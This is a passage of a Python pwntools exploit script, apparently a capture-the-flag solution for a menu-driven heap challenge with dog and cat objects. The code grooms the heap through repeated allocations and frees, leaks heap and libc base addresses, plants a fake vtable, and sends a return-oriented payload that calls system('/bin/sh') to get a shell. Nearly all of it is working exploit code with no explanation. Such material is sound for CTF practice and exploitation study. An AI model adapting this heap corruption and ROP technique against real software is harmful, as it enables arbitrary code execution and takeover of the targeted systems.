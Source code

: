 ```python
	p.recvuntil('> ')
	p.sendline('2')
	p.recvuntil('> ')
	p.sendline('1')

def delete_cat():
	p.recvuntil('> ')
	p.sendline('2')
	p.recvuntil('> ')
	p.sendline('2')

def cb():
	p.recvuntil('> ')
	p.sendline('3')

def sp():
	p.recvuntil('> ')
	p.sendline('4')

for i in range(10):
	new_dog('\x01'*0xf0, 0xdeadbeef)

new_cat('\x02'*0xf0)

for i in range(7):
	delete_dog()

cb()

for i in range(2):
	delete_dog()

sp()
delete_dog()

new_dog('\x01'*0xf, 0xdeadbeef)
cb()
p.recvn(0x100)
p.recvn(11)
heapbase = u64(p.recvn(8))-(0x4494b0-0x41e000)
log.success('heapbase = '+hex(heapbase))
p.recvn(8)
libcbase = u64(p.recvn(8))-(0x7f0f729d0c00-0x7f0f727f0000)
log.success('libcbase = '+hex(libcbase))

fake_vtable = heapbase + (0x19c4fb0-0x199a000)
new_dog(p64(0)+p64(fake_vtable)[:7], 0xdeadbeef)
new_cat('b'*0xf)

magic = libcbase + (0x7f9a3f2e8080-0x7f9a3f19b000)+26
lr = libcbase + 0x000000000005525c
pop_rdi = libcbase + 0x0000000000028a55

payload = p64(magic)+p64(libcbase+0x0000000000028a4e)
payload+= p64(0xdeadbeef)+p64(fake_vtable)
payload+= p64(0)+p64(lr)
payload+= p64(pop_rdi)+p64(fake_vtable+8*10)
payload+= p64(libcbase+libc.sym['system'])+p64(fake_vtable)
payload+= '/bin/sh\x00'
payload+= p64(0xdeadbeef)*9

new_cat(payload)

```